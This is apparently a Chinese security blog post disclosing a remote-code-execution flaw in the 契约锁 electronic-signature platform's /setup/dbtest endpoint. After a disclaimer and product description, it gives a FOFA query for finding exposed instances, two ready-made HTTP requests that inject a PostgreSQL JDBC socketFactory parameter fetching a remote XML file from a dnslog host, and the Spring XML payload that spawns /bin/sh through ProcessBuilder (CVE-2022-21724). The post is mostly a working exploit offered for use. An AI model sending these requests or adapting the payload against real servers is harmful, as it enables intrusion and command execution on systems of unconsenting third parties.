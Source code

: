 #  契约锁电子签章系统dbtest RCE  
原创 小白爱学习Sec  小白爱学习Sec   2025-06-18 00:01  
  
**免责声明**  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_gif/4yJaCArQwpACMJuBxI11jPgvHCxQZFQxPrt5iaQRibgGl0aIzFo4hDCYcFuyViag6zhuqNEjjeasfMEAy1rkaOahw/640?wx_fmt=gif&wxfrom=5&wx_lazy=1&tp=wxpic&random=0.18042352401019524&random=0.49301784938611526&random=0.7409665131631742 "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7L4WY53VhUO2spBG8TGAPF8o98Ac6Y3EPLSEFGmKXeZyQCOGkqFWbeMibTfC1wZLjJTDmLb4Z0P9VCAV3RLDbbQ/640?random=0.11828586430527777&random=0.3266770581654057&random=0.7229092426155448 "")  
  
本文旨在提供有关特定漏洞工具或安全风险的详细信息，以帮助安全研究人员、系统管理员和开发人员更好地理解和修复潜在的安全威胁，协助提高网络安全意识并推动技术进步，而非出于任何恶意目的。利用本文提到的漏洞信息或进行相关测试可能会违反法律法规或服务协议。  
作者不对读者基于本文内容而产生的任何行为或后果承担责任。  
如有任何侵权问题，请联系作者删除。  
  
![图片](https://mmbiz.qpic.cn/mmbiz_gif/4yJaCArQwpACMJuBxI11jPgvHCxQZFQxPrt5iaQRibgGl0aIzFo4hDCYcFuyViag6zhuqNEjjeasfMEAy1rkaOahw/640?wx_fmt=gif&wxfrom=5&wx_lazy=1&tp=webp "")  
  
  
**简单介绍**  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_gif/4yJaCArQwpACMJuBxI11jPgvHCxQZFQxPrt5iaQRibgGl0aIzFo4hDCYcFuyViag6zhuqNEjjeasfMEAy1rkaOahw/640?wx_fmt=gif&wxfrom=5&wx_lazy=1&tp=webp "")  
  
  
契约锁，是上海亘岩网络科技有限公司联合数字证书认证中心、公证处、知名律协一起全力打造的数字化可信基础服务平台；为组织提供“数字身份、电子签章、印章管控以及数据存证服务”于一体的数字化可信基础解决方案。  
  
  
**FOFA：app="契约锁-电子签署平台"**  
  
![图片](https://mmbiz.qpic.cn/mmbiz_gif/4yJaCArQwpACMJuBxI11jPgvHCxQZFQxPrt5iaQRibgGl0aIzFo4hDCYcFuyViag6zhuqNEjjeasfMEAy1rkaOahw/640?wx_fmt=gif&wxfrom=5&wx_lazy=1&tp=webp "")  
  
  
**漏洞POC**  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_gif/4yJaCArQwpACMJuBxI11jPgvHCxQZFQxPrt5iaQRibgGl0aIzFo4hDCYcFuyViag6zhuqNEjjeasfMEAy1rkaOahw/640?wx_fmt=gif&wxfrom=5&wx_lazy=1&tp=webp "")  
  
```
GET /setup/dbtest?db=POSTGRESQL&host=localhost&port=5511&username=root&name=test%2F%3FsocketFactory%3Dorg%2Espringframework%2Econtext%2Esupport%2EClassPathXmlApplicationContext%26socketFactoryArg%3Dhttp%3A%2F%2Fxxx.dnslog.cn%2F1%2Exml HTTP/1.1
Host: xxxx
User-Agent: Mozilla/5.0 (Windows NT 4.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/37.0.2049.0 Safari/537.36
```  
  
  
可能路径二：  
  
```
GET /api/setup/dbtest?db=POSTGRESQL&host=localhost&port=5511&username=root&name=test%2F%3FsocketFactory%3Dorg%2Espringframework%2Econtext%2Esupport%2EClassPathXmlApplicationContext%26socketFactoryArg%3Dhttp%3A%2F%2Fxxx.dnslog.cn%2F1%2Exml HTTP/1.1
Host: xxxx
User-Agent: Mozilla/5.0 (Windows NT 4.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/37.0.2049.0 Safari/537.36
```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/x095A8xUTuX3ricbGViafBNCtD00YzBQGv7cicZF8l1xbfvyljyjic5eU5peQhFfV8sdBGgGRjcRgGy25icTSnAJ1ZA/640?wx_fmt=png&from=appmsg "")  
  
  
  
漏洞利用的是PostgreSQL JDBC Driver RCE（CVE-2022-21724）  
  
  
1.xml的内容如下  
```
<beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xmlns:p="http://www.springframework.org/schema/p"
       xsi:schemaLocation="http://www.springframework.org/schema/beans
        http://www.springframework.org/schema/beans/spring-beans.xsd">
   <bean id="exec" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
          <list>
            <value>/bin/sh</value>
            <value>-c</value>
            <value>touch /tmp/test</value>
          </list>
        </constructor-arg>
    </bean>
</beans>
```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_gif/x095A8xUTuWMRpvvqmMwKABosFPL6ptacLNz6fxia55bJuCgfYNDtSfiaSIZ9nU9IxDicXfNricwyMTJZUgo9dIgTg/640?wx_fmt=gif&from=appmsg "")  
  
创作不易，点赞、分享、转发支持一下吧！！  
  
  
